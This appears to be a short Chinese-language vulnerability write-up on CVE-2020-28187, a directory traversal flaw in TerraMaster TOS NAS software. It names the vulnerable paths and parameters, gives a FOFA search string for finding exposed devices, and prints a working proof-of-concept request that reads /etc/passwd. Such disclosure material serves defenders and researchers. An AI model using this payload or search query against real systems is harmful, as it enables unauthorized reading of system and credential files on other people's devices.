 # TerraMaster TOS 后台任意文件读取漏洞 CVE-2020-28187

## 漏洞描述

TerraMaster TOS <= 4.2.06中的多个目录遍历漏洞允许远程身份验证的攻击者通过/tos/index.php?editor/fileGet路径下的filename参数、 /include/ajax/logtable.php路径下的Event参数和/include/core/index.php路径下的opt参数，读取文件系统中的任何文件。

## 漏洞影响

> [!NOTE]
>
> TerraMaster TOS < 4.2.06

## FOFA

> [!NOTE]
>
> "TerraMaster" && header="TOS"

## 漏洞复现

登陆后访问，验证漏洞的POC为

```
/tos/index.php?editor/fileGet&filename=../../../../../../etc/passwd
```

![](http://wikioss.peiqi.tech/vuln/tm-8.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

